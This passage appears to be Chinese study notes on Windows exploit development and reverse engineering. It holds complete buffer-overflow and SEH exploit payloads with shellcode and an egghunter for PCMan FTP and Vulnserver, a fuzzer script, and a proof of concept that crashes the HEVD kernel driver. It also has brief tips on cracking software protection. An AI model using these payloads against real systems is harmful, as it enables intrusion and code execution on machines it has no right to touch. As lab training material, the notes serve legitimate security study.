找到jmp esp地址并将EIP的值溢出为该值，程序正确跳到了这个地方

接着测试坏字符
经测试,坏字符为\x00\x0a\x0b\x0d，排除坏字符生成shellcode，发送

练习D
软件：PCMAN 2.0.7版本 21端口存在缓冲区溢出漏洞
接着测试
往21端口发送数据可以看到被服务器接收且回显在日志栏

boofuzz跑一下，程序在此处crash了

boofuzz脚本发了10000字节数据产生了crash，使用自定义数据测试一下溢出点
这次发送了5000字节也crash 
└─# msf-pattern_offset -q 43396F43
[*] Exact match at offset 2007
EIP偏移量2007
坏字符\x00\x0a\x0d
完整payload
eip = "\x01\x90\xd9\x73"
nop = "\x90" * 16
buf = b""
buf += b"\xdb\xd7\xd9\x74\x24\xf4\xb8\x88\x11\x6c\xc8\x5a\x2b"
buf += b"\xc9\xb1\x32\x31\x42\x17\x03\x42\x17\x83\x4a\x15\x8e"
buf += b"\x3d\xb6\xfe\xcc\xbe\x46\xff\xb0\x37\xa3\xce\xf0\x2c"
buf += b"\xa0\x61\xc1\x27\xe4\x8d\xaa\x6a\x1c\x05\xde\xa2\x13"
buf += b"\xae\x55\x95\x1a\x2f\xc5\xe5\x3d\xb3\x14\x3a\x9d\x8a"
buf += b"\xd6\x4f\xdc\xcb\x0b\xbd\x8c\x84\x40\x10\x20\xa0\x1d"
buf += b"\xa9\xcb\xfa\xb0\xa9\x28\x4a\xb2\x98\xff\xc0\xed\x3a"
buf += b"\xfe\x05\x86\x72\x18\x49\xa3\xcd\x93\xb9\x5f\xcc\x75"
buf += b"\xf0\xa0\x63\xb8\x3c\x53\x7d\xfd\xfb\x8c\x08\xf7\xff"
buf += b"\x31\x0b\xcc\x82\xed\x9e\xd6\x25\x65\x38\x32\xd7\xaa"
buf += b"\xdf\xb1\xdb\x07\xab\x9d\xff\x96\x78\x96\x04\x12\x7f"
buf += b"\x78\x8d\x60\xa4\x5c\xd5\x33\xc5\xc5\xb3\x92\xfa\x15"
buf += b"\x1c\x4a\x5f\x5e\xb1\x9f\xd2\x3d\xdc\x5e\x60\x38\x92"
buf += b"\x61\x7a\x42\x83\x09\x4b\xc9\x4c\x4d\x54\x18\x29\xb1"
buf += b"\xb6\x88\x44\x5a\x6f\x59\xe5\x07\x90\xb4\x2a\x3e\x13"
buf += b"\x3c\xd3\xc5\x0b\x35\xd6\x82\x8b\xa6\xaa\x9b\x79\xc8"
buf += b"\x19\x9b\xab\xa6\xf2\x17\x31\x46\x6c\xbc\x97\xc3\x16"
buf += b"\x59\xe8"
all = "\x90" * 2007
all += eip
all += nop
all += buf

练习E(SEH)
重做vulserver.exe https://zflemingg1.gitbook.io/undergrad-tutorials/walkthroughs-osce/vulnserver-gmon-command
GMON命令可溢出，无法修改EIP，但是可以溢出到SEH

SEH两条偏移量
└─# msf-pattern_offset -q 6F45346F
[*] Exact match at offset 3553
┌──(root💀kali)-[~]
└─# msf-pattern_offset -q 45336f45
[*] Exact match at offset 3549
可以控制SEH了 
与普通找到jmp esp的方式不同的是，SEH溢出利用需要找到一处pop/pop/ret指令组。这是因为SEH在被调用时会在栈上压入数个参数，两次pop指令可以让ESP——栈顶的位置往高位处移动8字节(32位程序中两次pop寄存器，寄存器大小是4字节)。当ESP减小8字节后再使用RET正好可以执行ESP中被控制的SEH成员地址。
地址为 625010b4

将SEH的地址覆盖为625010b4，程序成功执行到了该处
为此需要发送的payload格式为
SEH溢出偏移量 + NSEH + SEH + 填充符
NSEH是在SEH执行后调用的指令。
程序产生异常后会先调用SEH地址的指令，此时SEH地址被覆盖为了2个pop 1个ret，这会导致直接执行NSEH地址的指令，NSEH的指令指引自定义短跳指令跳入shellcode区。

2次pop后ret返回到了SEH的小缓冲区 
虽然可以使用短跳跳入下面的可控区域，但是下面的区域没有足够的空间让入shellcode。
由于不能往后跳，那就往回跳，前面的空间也是可控的 
但是短跳的距离是有限的，无法跳跃整个shellcode。此时可以采用先短跳至egghunter指令，egghunter在前面的更大的缓冲区中查找egg标记，在egg标记后放置shellcode来执行shellcode
整个payload如下
//egghunter代码
egghunter=b""
egghunter+=b"\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53\x53"
egghunter+=b"\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08\x3c"
egghunter+=b"\x05\x74\xdf\xb8\x50\x57\x4e\x44\x8b\xfa\xaf\x75\xda\xaf\x75\xd7"
egghunter+=b"\xff\xe7"
//执行notepad的shellcode
buf = b""
buf += b"\xda\xc0\xd9\x74\x24\xf4\xbb\x74\x96\x27\xf3\x5d\x2b"
buf += b"\xc9\xb1\x32\x31\x5d\x17\x83\xc5\x04\x03\x29\x85\xc5"
buf += b"\x06\x2d\x41\x8b\xe9\xcd\x92\xec\x60\x28\xa3\x2c\x16"
buf += b"\x39\x94\x9c\x5c\x6f\x19\x56\x30\x9b\xaa\x1a\x9d\xac"
buf += b"\x1b\x90\xfb\x83\x9c\x89\x38\x82\x1e\xd0\x6c\x64\x1e"
buf += b"\x1b\x61\x65\x67\x46\x88\x37\x30\x0c\x3f\xa7\x35\x58"
buf += b"\xfc\x4c\x05\x4c\x84\xb1\xde\x6f\xa5\x64\x54\x36\x65"
buf += b"\x87\xb9\x42\x2c\x9f\xde\x6f\xe6\x14\x14\x1b\xf9\xfc"
buf += b"\x64\xe4\x56\xc1\x48\x17\xa6\x06\x6e\xc8\xdd\x7e\x8c"
buf += b"\x75\xe6\x45\xee\xa1\x63\x5d\x48\x21\xd3\xb9\x68\xe6"
buf += b"\x82\x4a\x66\x43\xc0\x14\x6b\x52\x05\x2f\x97\xdf\xa8"
buf += b"\xff\x11\x9b\x8e\xdb\x7a\x7f\xae\x7a\x27\x2e\xcf\x9c"
buf += b"\x88\x8f\x75\xd7\x25\xdb\x07\xba\x23\x1a\x95\xc1\x06"
buf += b"\x1c\xa5\xc9\x36\x75\x94\x42\xd9\x02\x29\x81\x9d\xed"
buf += b"\xcb\x03\xe8\x85\x55\xc6\x51\xc8\x65\x3d\x95\xf5\xe5"
buf += b"\xb7\x66\x02\xf5\xb2\x63\x4e\xb1\x2f\x1e\xdf\x54\x4f"
buf += b"\x8d\xe0\x7c\x21\x5e\x6b\x1a\xcd\xc1\xf7\xca\x48\x7a"
buf += b"\x9d\x12"
all = b"GMON /." //造成溢出的字符
all += "A" * 8 //占位，与有效数据分开
all += b"PWNDPWND" + buf //egg标志后面跟shellcode
all += "\x90" * (3556 - 50 -len(all)) //减去egg标志、shellcode、egghunter代码后的填充
all += egghunter //egghunter填充字符，放在这里便于被短跳到
all += "\x90" * (3556 - len(all)) //剩余的填充字符
all += "\xeb\xbc\x90\x90" //nseh，这是一个短跳指令
all += "\xb4\x10\x50\x62" //指向pop pop ret指令的地址，便于执行nseh中地址
all += "\x90" * 1000 //填充符
s.send(all)

练习F
vulserver的HTER命令练习
栈溢出EIP覆盖，直接使用普通字符可以造成溢出。但是溢出字符被直接写入了内存。 
msf生成的字符在这种环境无法使用，所以字符都以16进制写入内存，测试没办法造成溢出。
使用脚本一个个发送字符，反复测试，最终溢出点在HTER的2041字符后
import socket
import sys
ip = "192.168.14.139"
port = 9999
string = "HTER "
s = socket.socket()
s.connect((ip, port))
timeout = 3
s.settimeout(timeout)
while True:
try:
print("Fuzzing with {} bytes".format(len(string)))
s.send(string + b"\x0a\x0d")
string += b"A" * 1
s.recv(1024)
except:
print("Fuzzer crashed at {} bytes".format(len(string)))
sys.exit(0)
s.close()
用mona插件找到jmp esp的地址。
[+] Command used:
!mona jmp -r esp
---------- Mona command started on 2023-10-16 15:15:42 (v2.0, rev 577) ----------
[+] Processing arguments and criteria
- Pointer access level : X
[+] Generating module info table, hang on...
- Processing modules
- Done. Let's rock 'n roll.
[+] Querying 2 modules
- Querying module essfunc.dll
- Querying module vulnserver.exe
- Search complete, processing results
[+] Preparing output file 'jmp.txt'
- (Re)setting logfile jmp.txt
[+] Writing results to jmp.txt
- Number of pointers of type 'jmp esp' : 9
[+] Results :
0x625011af | 0x625011af : jmp esp | {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (essfunc.dll)
0x625011bb | 0x625011bb : jmp esp | {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (essfunc.dll)
0x625011c7 | 0x625011c7 : jmp esp | {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (essfunc.dll)
0x625011d3 | 0x625011d3 : jmp esp | {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (essfunc.dll)
0x625011df | 0x625011df : jmp esp | {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (essfunc.dll)
0x625011eb | 0x625011eb : jmp esp | {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (essfunc.dll)
0x625011f7 | 0x625011f7 : jmp esp | {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (essfunc.dll)
0x62501203 | 0x62501203 : jmp esp | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (essfunc.dll)
0x62501205 | 0x62501205 : jmp esp | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (essfunc.dll)
后面就是常规的找坏字符、生成shellcode，然后发送payload。完整payload
all = "HTER AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + "af115062" + "90" * 20 + "dac0d97424f4bb749627f35d2bc9b132315d1783c504032985c5062d418be9cd92ec6028a32c1639949c5c6f1956309baa1a9dac1b90fb839c8938821ed06c641e1b616567468837300c3fa73558fc4c054c84b1de6fa56454366587b9422c9fde6fe614141bf9fc64e456c14817a6066ec8dd7e8c75e645eea1635d4821d3b968e6824a6643c0146b52052f97dfa8ff119b8edb7a7fae7a272ecf9c888f75d725db07ba231a95c1061ca5c936759442d90229819dedcb03e88555c651c8653d95f5e5b76602f5b2634eb12f1edf544f8de07c215e6b1acdc1f7ca487a9d12"
练习G
VulServer中的LTER命令
./后跟多个字符触发溢出，溢出到SEH
计算SEH和NSEH偏移量，上面是SEH，下面是NSEH
└─# msf-pattern_offset -q 6f45346f
[*] Exact match at offset 3553
└─# msf-pattern_offset -q 45336f45
[*] Exact match at offset 3549
测试覆盖SEH
测试坏字符，结果为\x80到\xff字符都被转换成了\x01到\x7f之间的字符。
ASCII字符范围是\x00到\x7f，LTER命令仅接受ASCII字符，会对ASCII以外的字符进行转换
用mona找到合适的seh利用指令组地址，仅有ASCII字符的地址 6250120b
跟踪之后确认覆盖了SEH
下一步是跳出SEH区，短跳指令jmp的16进制\xeb是坏字符，使用条件跳转
代码执行流重定向流指令
在能控制寄存器值的情况下可以组合使用
jmp esp //FFE4
call esp //FFD4
pop eax; call eax
egghunter
PWND
egghunter=b""
egghunter+=b"\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53\x53"
egghunter+=b"\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08\x3c"
egghunter+=b"\x05\x74\xdf\xb8\x50\x57\x4e\x44\x8b\xfa\xaf\x75\xda\xaf\x75\xd7"
egghunter+=b"\xff\xe7"
用户模块和系统模块重定向指令地址问题
用户模块中指令的地址在不同系统上是不变的，系统模块中指令的地址在不同系统上是不同的。
如果使用用户模块的重定向语句的地址不会有什么问题，但如果使用系统模块上的重定向语句地址，这就会导致本地测试成功的EIP地址在目标机器上不可用。
!!系统模块中的指令地址在不同系统版本是不同的。
ROP
https://cwinfosec.org/Intro-ROP-DEP-Bypass/ https://fluidattacks.com/blog/vulnserver-trun-rop/ https://ctf101.org/binary-exploitation/return-oriented-programming/
SEH溢出攻击
https://learn.microsoft.com/zh-tw/cpp/cpp/structured-exception-handling-c-cpp?view=msvc-170 https://blog.30cm.tw/2015/05/windowsbuffer-overflowsehshellcode.html https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/seh-based-buffer-overflow
SEH是windows上处理异常的机制，异常会由SEH链一层层转入系统底层。
在TIB中，有一个ExceptionList链表，链表中有一个_EXCEPTION_REGISTRATION_RECORD结构体。
当数据溢出到_EXCEPTION_REGISTRATION_RECORD的指针上时，会导致SEH溢出攻击
typedef struct _EXCEPTION_REGISTRATION_RECORD {
struct _EXCEPTION_REGISTRATION_RECORD *Prev;
PEXCEPTION_ROUTINE Handler;
} EXCEPTION_REGISTRATION_RECORD;
ASLR(Address Space Layout Randomization)地址空间随机化
ASLR使程序每次执行时，内存中的堆、栈BBS等数据每次存放在不同的内存地址，使得查找偏移难度变大。
调用约定
CPU在处理函数中的参数时的一种调用约定方法，不同的调用约定使用的寄存器和规则不尽相同
Fastcall
Fastcall是x64 Windows的调用约定，Windows上的fastcall默认使用4个寄存器。
Fast call的工作模式
- 前4个参数在寄存器中传递
- 非浮点值(浮点数或双精度浮点数)的参数将通过RCX、RDX、R8和R9(按此顺序)传递。非浮点值包括指针、整数、布尔值、字符等
- 浮点参数将通过XMM0、XMM1、XMM2和XMM3传递(按此顺序)，浮点数包括浮点数和双精度浮点数
- 如果传递的参数太大，无法装入寄存器，则通过引用传递
- 参数永远不会分布在多个寄存器中。其他参数都放在栈上。
- 基指针(base pointer, RBP)被保存，以便恢复。
- 如果函数的返回值是整数、bool、char等，则通过RAX传递，如果是浮点数或double，则通过XMM0传递。
- 成员函数(属于类/结构体的函数)有一个表示this指针的隐式第一个参数。因为它是一个指针，它将通过RCX.[1]传递
- 调用者负责为被调用者的参数分配空间。调用者必须总是为4个参数分配空间，即使没有传递参数。
- 寄存器RAX、RCX、RDX、R8、R9、R10、R11被认为是易失的，在函数调用时必须被认为是被销毁的(除非有其他安全证明——通过分析，如整个程序优化)。
- 寄存器RBX、RBP、RDI、RSI、RSP、R12、R13、R14和R15被认为是非易失的，必须通过使用它们的函数来保存和恢复
函数中参数的传递顺序如下
MOV DWORD PTR SS:[RSP + 0x38], 0x8 ;同理
MOV DWORD PTR SS:[RSP + 0x30], 0x7 ;同理
MOV DWORD PTR SS:[RSP + 0x28], 0x6 ;第六个参数传给DWORD指针，由于是双字，所以RSP地址是RSP+0X28
MOV DWORD PTR SS:[RSP + 0x20], 0x5 ;第五个参数传给DWORD指针，地址是RSP+0X20
MOV R9D, 0x4 ;第四个参数给R9D
MOV R8D, 0x3 ;第三个参数给R8D
MOV EDX, 0x2 ;第二个参数给EDX
MOV ECX, 0x1 ;第一个参数给ECX
CALL function
cdecl
cdecl是C语言调用约定
windows x86是用cdecl调用约定
- 参数在栈上向后传递(从右到左),依照栈先入后出的规矩，先传递最后的参数，好让前面的参数先出来。不使用寄存器
- 基指针(base pointer, RBP)被保存，以便恢复。
- 返回值通过EAX传递，如果是返回值是字节或字符部分，则使用EAX更低位返回
- 调用者清除堆栈。这就是cdecl的特别之处。因为调用者会清除堆栈，所以cdecl允许可变数量的参数。
- 32位的x86，在栈上传参
- linux上64位的x86，RDI、RSI、RDX、RCX、R8和R9中按顺序放置最多6个参数，其余参数在栈上
-
stdcall
Standard Calling标准调用约定，在32位的dll文件中使用的是这种
- 参数从右到左在栈上传递，不适用寄存器
- 被调用函数清除栈，只能允许固定数量参数的函数
简单exe分析
Printf函数
通过字符串定位到函数位置，本例中知道Hello Word字符串就是main函数中的
通过xAnalyzer插件可以分析出函数位置，带$并下面有段括号的属于函数段
SUB RSP,0x28 //RSP减了一个值。属于函数序言
LEA RCX,QWORD PTR DS:[0x7FF6FA32E430] //将0x7FF6FA32E430地址指到RCX，在Fastcall中，RCX是用于给函数传参的第一个值。在这里是将Hello Word传给了printf
CALL <consoleapplication2.sub_7FF6FA311010> //调用函数，这里是printf函数
XOR EAX,EAX //异或EAX，异或自身结果为0
ADD RSP,0x28 //还原栈
RET //返回调用,main函数结果
循环
EBX/RBX是循环的特征
如图所示
- 循环从0开始，EBX被异或成0
- EBX为循环索引，且传给了EDX，为函数的第二个参数
- 一个字符串的地址指到了RCX，为函数的第一个参数
- 调用了printf函数
- EBX递增1
- CMP比较0xA(10)和EBX(此时为1)，EBX = EBX - 0xA
- JL根据S标志位跳转，由于上一步结果是1-10为负数，所以SF为1，则跳转
简单DLL分析
这是此dll中的导入函数
修饰函数
dll的导出函数中，带有@、?的都是修饰函数，如果一个函数没有被修饰，那他是C函数或者使用extern "C"申明了是C函数。
修饰函数的好处是可以看到返回类型和参数
调用SayHello
对应加载的exe
#include <iostream>
#include <Windows.h>
typedef void(WINAPI* aa)(void); //定义一个函数类型以供使用
int main()
{
HMODULE dll = LoadLibraryA("DLL.DLL"); //载入dll
if (dll != NULL)
{
aa aa1 = (aa)GetProcAddress(dll, "SayHello"); //从dll句柄加载SayHello函数的地址，并传给自定义函数aa1
if (aa1 != NULL) {
aa1(); //调用aa1，也就是调用dll中的SayHello
}
else {
printf("Can't load the function.");
}
}
}
PrintArray

test edx,edx ;edx与自身进行AND比较
jle dll.7FF960511F18 ;jle查看标志位，ZF为1也就是edx是0的情况下跳转到ret，结束函数
mov qword ptr ss:[rsp+0x10],rsi ;RSI赋给rsp+0x10地址
push rdi ;入栈
sub rsp,0x20 ;函数序言
mov qword ptr ss:[rsp+0x30],rbx ;RBX被存到RSP+0x30位置
mov rsi,rcx ;第一个函数参数RCX传递给RSI
xor ebx,ebx ;EBX置0
movsxd rdi,edx ;第二个参数EDX传递给RDI
mov edx,dword ptr ds:[rsi+rbx*4] ;rsi+rbx*4地址传给edx
call <dll.sub_7FF9605120B0> ;调用函数，这是std::cout
call <dll.sub_7FF960514DD0> ;调用函数，这是std::end
inc rbx ;rbx自加1
cmp rbx,rdi ;比较rbx和rdi，rdi的值是第二个参数的值
jl dll.7FF960511EA0 ;rbx小于第二个参数则跳转
InitializePlayer
mov dword ptr ds:[rcx],0x20 ;0x20移动到rcx，rcx是第一个参数
lea rdx,qword ptr ds:[0x7FF960549718] ;这是个字符串，地址赋给了rdx，第二个参数
破解软件的要点
- 简单加密的软件通常可以在找到关键函数后，采用JMP破解
- 采用联网认证的软件，需要找到保护函数
脱壳
加壳的特点 - 较高的熵（大于等于7） - 较少的导入函数 - 特定打包器的标识
根据内存分配调用和内存属性更改调用手动找到打包后的代码或提取shellcode
概念&术语
UIPI (User Interface Privilege Isolation)
全称用户界面权限隔离，在Windows 2008后引入，禁止低权限进程利用消息机制对高权限进程进行任意操作。
该设置默认开启，位于注册表
HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System
EnableUIPI项为0表示禁用功能
SSPI (Security Support Provider Interface)
安全支持提供程序接口，可帮助客户端和服务器建立和维护安全通道，提供机密性、完整性和身份验证。
Bit & Bytes
Bit：0 or 1
Nibble: 4 bits
Byte: 8 bits
Word: 2 bytes, 16 bits
DWORD: 4 bytes, 32 bits
QWORD: 8 bytes, 64 bits
二进制运算
NOT 非
AND 且
OR 或
XOR 异或，相同为0，不同为1
运行库&函数
_set_app_type
在启动时使用的内部函数告知 CRT，应用属于控制台应用程序还是 GUI 应用。
controlfp
用来设置或者查询浮点环境的控制位，例如舍入模式、异常处理方式等
_iob_func
标准输入/输出流相关
_InterlockedCompareExchange64
对数据进行原子比较的函数，确保数据不会被改变
LONG64 _InterlockedCompareExchange64(LONG64 volatile* Destination, LONG64 Exchange, LONG64 Comparand);
当第一个参数Destination等于第三个参数Comparand时，将第一个参数替换为第二个参数Exchange。
确保Destination的值和Exchange相等
RtlGetVersion
RtlGetVersion 函数是 Windows 内核 API 中的一个函数，用于获取有关当前运行的操作系统的版本信息。它是 GetVersionEx 函数的内核模式等价物。
NTSTATUS RtlGetVersion(
_Out_ PRTL_OSVERSIONINFOW lpVersionInformation
);
用法
RTL_OSVERSIONINFOW osvi;
osvi.dwOSVersionInfoSize = sizeof(osvi);
NTSTATUS status = RtlGetVersion(&osvi);
if (NT_SUCCESS(status)) {
printf("Major version: %u\n", osvi.dwMajorVersion);
printf("Minor version: %u\n", osvi.dwMinorVersion);
printf("Build number: %u\n", osvi.dwBuildNumber);
printf("Service pack: %u\n", osvi.szCSDVersion[0]);
} else {
printf("Failed to get OS version information\n");
}
SEH
__except 异常过滤器的返回值
EXCEPTION_EXECUTE_HANDLER //EXCEPTION_EXECUTE_HANDLER的返回值向SEH发出信号，以执行__except块中的代码。
EXCEPTION_CONTINUE_SEARCH
//EXCEPTION_CONTINUE_SEARCH的返回值向SEH发出信号，让它继续在其他地方搜索处理程序
//当处理程序返回ExceptionContinueSearch时，这意味着处理程序对当前异常的恢复不感兴趣。因此，操作系统将转到下一个_EXCEPTION_REGISTRATION_RECORD并执行其处理程序。
//如果所有处理程序不会管理当前异常,操作系统将调用当前未处理的异常过滤器。开发人员可能会调用UnhandledExceptionFilter()API安装自定义过滤器。但是,请注意,未处理的异常过滤器()并不是前面提到的异常处理程序列表的一部分。也就是说,没有_exception _register _register _record结构,它将指向这个函数
EXCEPTION_CONTINUE_EXECUTION //EXCEPTION_CONTINUE_EXECUTION的返回值向SEH发出信号，让它重新执行导致异常的相同代码(在我们的示例中，这是除法代码)。
SEH是基于线程的
TIB中的结构
typedef struct _NT_TIB {
struct _EXCEPTION_REGISTRATION_RECORD *ExceptionList; //第一个成员指向_EXCEPTION_REGISTRATION_RECORD结构的指针
PVOID StackBase;
PVOID StackLimit;
PVOID SubSystemTib;
#if defined(_MSC_EXTENSIONS)
union {
PVOID FiberData;
DWORD Version;
};
#else
PVOID FiberData;
#endif
PVOID ArbitraryUserPointer;
struct _NT_TIB *Self;
} NT_TIB;
typedef NT_TIB *PNT_TIB;
_EXCEPTION_REGISTRATION_RECORD的一个成员是下一个_EXCEPTION_REGISTRATION_RECORD的指针。_EXCEPTION_REGISTRATION_RECORD是异常处理的链表
typedef struct _EXCEPTION_REGISTRATION_RECORD {
struct _EXCEPTION_REGISTRATION_RECORD *Next;
PEXCEPTION_ROUTINE Handler;
} EXCEPTION_REGISTRATION_RECORD;
当发生异常时，操作系统查看发生故障的线程的TIB，并检索一个指向TIB中包含的_EXCEPTION_REGISTRATION_RECORD结构的指针。然后，操作系统导航到EXCEPTION_ROUTINE例程的链表，并确定这些例程中是否有任何例程将处理异常
APC
APC(异步过程调用)是一种机制，可以在Windows中用于在特定线程的上下文中排队完成作业。
当调用异步RPC方法时，可以指定一个APC例程的地址，该例程将在RPC方法完成时执行。
用户模式下的两种APC - 用户APC:普通类型的用户APC，仅在线程处于Alertable状态时运行 - 特殊用户APC: RS5(windows10 October 2018)中添加的一种相对较新的APC类型，强制线程进入Alertable。(MS尚未证实)
用户模式下，只有当线程处于Alertable、NtTestAlert(测试)状态时，才会触发APC，使用APC注入，需要让进程处于以上状态。
特殊用户APC使用NtQueueApcThreadEx、NtQueueApcThreadEx2
内核学习
HEVD驱动练习
通过输入输出控制 （IOCTL） 访问设备驱动程序。
使用DeviceIoControl()函数向驱动对象发送消息。
安装驱动。由于是无签名的，Windows会阻止启动驱动，需要在Windows debug模式下启动
sc create HEVD binPath= C:\Users\admin\Desktop\x64\HEVD.sys type= kernel
sc start HEVD
驱动已加载
0x800 缓冲区溢出
缓冲区溢出，产生问题的函数是TriggerBufferOverflowStack。
找到函数地址
在函数返回处下断点，运行Poc观察寄存器的值
打蓝屏Poc
#include <iostream>
#include <string>
#include <Windows.h>
#define DEVICE_NAME "\\\\.\\HackSysExtremeVulnerableDriver" //驱动对象路径
//#define DEVICE_NAME "\\Device\\HackSysExtremeVulnerableDriver"
#define IOCTL(Function) CTL_CODE(FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS) // 一个宏，从编号获取IOCTL
#define STACK_OVERFLOW_IOCTL_NUMBER IOCTL(0x800) //产生问题的驱动IOCTL编号0x800
using namespace std;
HANDLE get_handle() {
HANDLE h = CreateFileA(DEVICE_NAME,
FILE_READ_ACCESS | FILE_WRITE_ACCESS,
FILE_SHARE_READ | FILE_SHARE_WRITE,
NULL,
OPEN_EXISTING,
FILE_FLAG_OVERLAPPED | FILE_ATTRIBUTE_NORMAL,
NULL);
//CreateFileA 打开驱动对象返回句柄
if (h == INVALID_HANDLE_VALUE) {
printf("Failed to get handle =(\n");
return NULL;
}
else {
printf("Success to get handle,0x%x",h);
}
return h;
}
//get_handle函数从驱动对象路径中获取句柄
void do_buffer_overflow(HANDLE h)
{
SIZE_T in_buffer_size = 0x1000;
PULONG in_buffer = (PULONG)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, in_buffer_size); //分配堆空间
memset((char*)in_buffer, 'A', in_buffer_size); //往堆中写入0x1000个A
printf("Sending buffer.\n");
bool result = DeviceIoControl(h, STACK_OVERFLOW_IOCTL_NUMBER, in_buffer, (DWORD)in_buffer_size, NULL, 0, NULL, NULL); //使用DeviceIoControl()往指定编号的驱动对象发送数据
if (!result)
{
printf("IOCTL Failed: %X\n", GetLastError());
}
HeapFree(GetProcessHeap(), 0, (LPVOID)in_buffer);
}
int main()
{
HANDLE h = get_handle();
do_buffer_overflow(h);
//std::cout << "Hello World!\n";
}
观察运行Poc后寄存器的值，多个寄存器的值被覆盖，rsp处的代码被覆盖
蓝屏
没有溢出到rsp，而是溢出到rsp的地址
尝试找出溢出位置
查看rsp地址的值已经被覆盖
1: kd> d fffff88b53f177b8
fffff88b`53f177b8 30 43 72 31 43 72 32 43-72 33 43 72 34 43 72 35 0Cr1Cr2Cr3Cr4Cr5
